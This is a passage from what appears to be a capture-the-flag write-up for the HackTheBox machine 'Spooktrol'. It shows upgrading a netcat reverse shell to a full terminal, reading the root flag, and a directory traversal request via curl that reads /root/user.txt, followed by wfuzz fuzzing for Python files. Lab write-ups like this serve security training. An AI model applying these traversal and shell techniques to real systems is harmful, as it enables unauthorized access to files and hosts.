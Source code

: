Terminal upgrade:

```

root@spooktrol:~# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@spooktrol:~# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@spooktrol:~# 

```

And grab `root.txt`:

```

root@spooktrol:~# cat root.txt
92a2a92d************************

```

## Beyond Root - Directory Traversal

The `/file_management/` endpoint has a directory traversal bug in it. Knowing what the box looks like, I can actually just read `/root/user.txt`:

```

oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../../../../root/user.txt
d197bc88************************

```

That would be hard to guess in a live competition.

Still, I can fuzz for Python files in the same and parent directories with `wfuzz`. I didn’t find anything in the current directory, but going up one:

```

oxdf@parrot$ wfuzz -u http://10.10.11.123/file_management/?file=../FUZZ.py -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 21
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.123/file_management/?file=../FUZZ.py
Total requests: 2588

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000212:   200        4 L      10 W     115 Ch      "server"

Total time: 13.24183
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 195.4412

```
